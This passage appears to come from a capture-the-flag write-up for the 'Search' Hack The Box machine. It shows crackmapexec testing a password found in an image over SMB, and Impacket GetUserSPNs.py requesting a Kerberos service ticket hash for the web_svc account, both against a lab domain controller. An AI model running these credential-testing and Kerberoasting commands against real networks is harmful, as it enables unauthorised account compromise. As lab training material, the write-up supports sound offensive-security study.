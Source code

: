 ![](<../../../.gitbook/assets/image (596).png>)

Keywords identified are "Hope Sharp" and "IsolationIsKey?". Considering we know the naming context for this Domain we try the potential credentials with `crackmapexec`.

```
crackmapexec smb '10.10.11.129' -u hope.sharp -p 'IsolationIsKey?' -d 'search.htb'
```

![](<../../../.gitbook/assets/image (806).png>)

### Service Prinicipal Names

With valid credentials we check for SPN's using Impacket `GetUserSPNs.py` and pull a krb5tgs hash for the user _web\_svc_.

```
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -dc-ip '10.10.11.129' -request
```
